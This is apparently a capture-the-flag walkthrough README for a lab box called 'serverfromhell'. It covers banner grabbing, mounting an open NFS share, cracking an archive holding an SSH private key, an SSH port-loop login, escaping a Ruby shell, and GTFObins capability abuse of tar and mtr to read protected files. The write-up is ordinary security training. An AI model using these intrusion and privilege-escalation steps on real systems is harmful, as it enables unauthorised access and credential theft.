







# README.md

### ip= 10.10.189.97 

### /etc/hosts
```
10.10.189.97   serverfromhell
```

### Room



### Rustscan
```
Rustscan gives us alot of open ports. we will need to use a small script to go through the ports and hopefully grab some banners 
```



### banner grabber 
```
after some googling and githubing i found a python script to grab some banners for me 

https://github.com/surajsinghbisht054/py_banner_grabber.git 

the script requires some input from user 

sudo python3 bannergrab.py -t serverfromhell -p 1-100 -o bannergrab.txt

we are scanning our host 
-t = serverfromhell 
on the first 100 ports
-p = 1-100
and outputing the results to txt file 
-o = bannergrab.txt 
```
### bannergrab.txt
```
within all the maddness we see go to port [REDACTED]

nc serverfromhell [REDACTED]

NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan

Lets try to mount the NFS share
```

### NFS
```
googling nfs show mount we find showmount common 
```

```
Using a fresh Ubuntu 20.04 is not the best idea so we need to install some packages 
sudo apt install nfs-common

We now find 

Export list for serverfromhell:
/home/nfs *

first issue :
sudo mount serverfromhell/home/nfs /tmp
mount: /tmp: special device serverfromhell/home/nfs does not exist.

after a few moments of lasped concerntration i remembered the :

sudo mount serverfromhell:/home/nfs /tmp

ls /tmp

backup.zip

```
### backup.zip
```
unzip backup.zip
Archive:  backup.zip
   creating: home/hades/.ssh/
[backup.zip] home/hades/.ssh/id_rsa password: 

Of course its encrypted... 

If we run unzip -v backup.zip you can see the contents 

unzip -v backup.zip 
Archive:  backup.zip
 Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
--------  ------  ------- ---- ---------- ----- --------  ----
       0  Stored        0   0% 2020-09-15 23:11 00000000  home/hades/.ssh/
    3369  Defl:N     2095  38% 2020-09-15 23:11 6f72d66b  home/hades/.ssh/id_rsa
      10  Stored       10   0% 2020-09-15 23:11 f51a7381  home/hades/.ssh/hint.txt
     736  Defl:N      590  20% 2020-09-15 23:11 1c4c509b  home/hades/.ssh/authorized_keys
      33  Stored       33   0% 2020-09-15 23:11 2f9682fa  home/hades/.ssh/flag.txt
     736  Defl:N      590  20% 2020-09-15 23:11 1c4c509b  home/hades/.ssh/id_rsa.pub
--------          -------  ---                            -------
    4884             3318  32%                            6 files


zip2john doesn't come with Ubuntu 20.04 and it seems it does not install with the John package : apt install john so i'll have to install kali as a VM on my machine... be back soon... 
While installing kali, had a thought to look online and...

found an online zip cracker 
https://lostmypass.com
```



```

backup.zip password 

[REDACTED]

```
### backup.zip
```
unzipping the backup.zip file we find 

ls home/hades/.ssh/
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```
### flag.txt 
```
cat home/hades/.ssh/flag.txt 
[redacted]
```
### hint.txt
```
cat home/hades/.ssh/hint.txt 
2500-4500
```
### ssh 
```
seeing the hint tells us 2500-4500, I assumed this was going to need a port scan to find the ssh service between ports 2500 & 4500.

lets break out the pybanner grabber again and see what we can find ..
took to long so had a google 

from something on stackoverflow
```


### ssh.sh
```
the script was a simple one liner 

for i in {3000..4500}; do ssh -i home/hades/.ssh/id_rsa hades@serverfromhell -p $i; done

```

```
Success!
```
### strange shell
```
Once on the box we are presented with a strange looking shell 

irb(main):001:0>

after googling again, we find its a ruby shell... how the hell do we run commands in a ruby shell more googling needed...
```
```
after reading the wiki, we find that ruby can run shell scripts and system commands.

Found rubyguides.com which shows us system("CMD") 
```
### user.txt
```
system("ls")
user.txt

system("cat user.txt")
[REDACTED]

```
### linpeas.sh
```
As we lok through the linpeas results we notice some interesting things 
SUID
/usr/bin/sudo		--->	/sudo$
SGID
/usr/bin/at		--->	RTru64_UNIX_4.0g(CVE-2002-1614)
Capabilities 
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```
```
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn		--->	SuSE_9.3/10
/usr/bin/sudo		--->	/sudo$
/usr/bin/gpasswd
/usr/bin/pkexec		--->	Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/at		--->	RTru64_UNIX_4.0g(CVE-2002-1614)
/usr/bin/passwd		--->	Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
/usr/bin/newgrp		--->	HP-UX_10.20
/sbin/mount.nfs
/bin/mount		--->	Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
/bin/su
/bin/umount		--->	BSD/Linux(08-1996)
/bin/fusermount
/bin/ping

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/bin/mlocate
/usr/bin/expiry
/usr/bin/bsd-write
/usr/bin/chage
/usr/bin/at		--->	RTru64_UNIX_4.0g(CVE-2002-1614)
/usr/bin/crontab
/usr/bin/ssh-agent
/usr/bin/wall
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd

[+] Writable folders configured in /etc/ld.so.conf.d/
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#etc-ld-so-conf-d
/usr/lib/x86_64-linux-gnu/libfakeroot
/usr/local/lib
/usr/local/lib/x86_64-linux-gnu
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep

```
### GTFObins
```
Over to GTFObins for a quick look

we find 2 that might work for the capabilities files we found 

MTR-packet
LFILE=file_to_read
mtr --raw -F "$LFILE"

TAR
LFILE=file to read 
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'

after trying mtr-packet first i realised i needed a decent shell as the system("") was giving me a hard time 

after a quick google i found 

system ("/bin/bash")
```


```
from here we can see we found the root flag
```
### root.txt
```
[REDACTED]

```
